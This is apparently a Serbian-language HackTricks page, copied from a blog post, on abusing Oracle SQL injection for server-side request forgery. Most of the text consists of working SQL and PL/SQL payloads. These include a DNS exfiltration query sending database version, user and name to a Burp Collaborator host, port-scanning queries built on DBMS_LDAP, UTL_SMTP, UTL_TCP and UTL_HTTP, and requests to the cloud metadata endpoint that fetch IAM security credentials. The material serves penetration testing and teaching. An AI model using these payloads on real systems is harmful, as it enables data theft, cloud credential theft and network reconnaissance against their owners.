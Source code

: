 # Oracle injection

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

**Poslužite ovaj post kao kopiju izbrisane objave sa** [**https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/**](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/).

## SSRF

Korišćenje Oracle-a za izvršavanje HTTP i DNS zahteva van opsega je dobro dokumentovano, ali kao sredstvo za izvlačenje SQL podataka kod ubacivanja. Uvek možemo izmeniti ove tehnike/funkcije da bismo izvršili druge SSRF/XSPA napade.

Instalacija Oracle-a može biti veoma bolna, posebno ako želite da brzo postavite instancu kako biste isprobali komande. Moj prijatelj i kolega sa [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), uputio me je na [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) što mi je omogućilo da postavim instancu na t2.large AWS Ubuntu mašini i Docker-u.

Pokrenuo sam docker komandu sa `--network="host"` zastavicom kako bih mogao da imitiram Oracle kao lokalnu instalaciju sa punim pristupom mreži, tokom pisanja ovog blog posta.

```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```

#### Oracle paketi koji podržavaju URL ili specifikaciju Hostname/Port broja <a href="#oracle-paketi-koji-podrzavaju-url-ili-specifikaciju-hostname-port-broja" id="oracle-paketi-koji-podrzavaju-url-ili-specifikaciju-hostname-port-broja"></a>

Kako bih pronašao bilo koje pakete i funkcije koje podržavaju specifikaciju hosta i porta, izvršio sam Google pretragu na [Oracle Database Online dokumentaciji](https://docs.oracle.com/database/121/index.html). Konkretno,

```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```

Pretraga je vratila sledeće rezultate (ne svi mogu se koristiti za izvršavanje izlazne mreže)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Ova grublja pretraga očigledno preskače pakete poput `DBMS_LDAP` (koji omogućava prosleđivanje imena hosta i broja porta) jer [stranica sa dokumentacijom](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) jednostavno vas upućuje na [drugom mestu](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Dakle, mogu postojati i drugi Oracle paketi koji se mogu zloupotrebiti za izvršavanje izlaznih zahteva koje sam možda propustio.

U svakom slučaju, pogledajmo neke od paketa koje smo otkrili i naveli gore.

**DBMS\_LDAP.INIT**

Paket `DBMS_LDAP` omogućava pristup podacima sa LDAP servera. Funkcija `init()` inicijalizuje sesiju sa LDAP serverom i kao argument prima ime hosta i broj porta.

Ova funkcija je već dokumentovana kako bi pokazala eksfiltraciju podataka putem DNS-a, kao što je prikazano ispod

```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```

Međutim, s obzirom da funkcija prihvata ime hosta i broj porta kao argumente, možete je koristiti i kao skener porta.

Evo nekoliko primera:

```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```

`ORA-31203: DBMS_LDAP: PL/SQL - Inicijalizacija nije uspela.` pokazuje da je port zatvoren dok vrednost sesije ukazuje na otvoren port.

**UTL\_SMTP**

Paket `UTL_SMTP` je dizajniran za slanje e-mailova preko SMTP-a. Primer koji je prikazan na [Oracle dokumentacionom sajtu pokazuje kako možete koristiti ovaj paket za slanje e-maila](https://docs.oracle.com/database/121/ARPLS/u\_smtp.htm#ARPLS71478). Za nas, međutim, interesantna stvar je mogućnost pružanja specifikacije hosta i porta.

Jednostavan primer je prikazan ispod sa funkcijom `UTL_SMTP.OPEN_CONNECTION`, sa vremenom isteka od 2 sekunde.

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```

`ORA-29276: prenos prekinut` pokazuje da je port otvoren, ali nije uspostavljena SMTP veza, dok `ORA-29278: SMTP privremena greška: 421 Servis nije dostupan` pokazuje da je port zatvoren.

**UTL\_TCP**

Paket `UTL_TCP` i njegove procedure i funkcije omogućavaju komunikaciju zasnovanu na TCP/IP protokolu sa servisima. Ako je programiran za određeni servis, ovaj paket može lako postati put za ulazak u mrežu ili izvršavanje zahteva sa serverske strane, jer se mogu kontrolisati svi aspekti TCP/IP veze.

Primer na Oracle dokumentacionom sajtu pokazuje kako možete koristiti ovaj paket za uspostavljanje sirove TCP veze radi preuzimanja web stranice. Možemo ga jednostavnije koristiti za slanje zahteva ka instanci metapodataka, na primer, ili ka proizvoljnom TCP/IP servisu.

```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```

Interesantno je da, zbog mogućnosti oblikovanja sirovih TCP zahteva, ovaj paket takođe može da se koristi za upitivanje usluge meta-podataka instance svih provajdera oblaka, jer se tip metode i dodatni zaglavlja mogu proslediti unutar TCP zahteva.

**UTL\_HTTP i veb zahtevi**

Možda najčešća i najšire dokumentovana tehnika u svakom tutorijalu za Oracle SQL Injection van opsega je [`UTL_HTTP` paket](https://docs.oracle.com/database/121/ARPLS/u\_http.htm#ARPLS070). Ovaj paket je definisan dokumentacijom kao - `Paket UTL_HTTP omogućava izvršavanje HTTP poziva iz SQL i PL/SQL. Možete ga koristiti za pristupanje podacima na internetu preko HTTP protokola.`

```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```

Možete dodatno koristiti ovo da biste izvršili neke osnovne skeniranje portova koristeći upite poput

```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```

`ORA-12541: TNS:no listener` ili `TNS:operation timed out` je znak da je TCP port zatvoren, dok je `ORA-29263: HTTP protocol error` ili podaci znak da je port otvoren.

Još jedan paket koji sam koristio u prošlosti sa različitim uspehom je [`GETCLOB()` metoda Oracle apstraktne vrste `HTTPURITYPE`](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) koja vam omogućava interakciju sa URL-om i pruža podršku za HTTP protokol. Metoda `GETCLOB()` se koristi za dobijanje GET odgovora sa URL-a kao [CLOB podatkovnog tipa.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)\[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Pogledajte [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
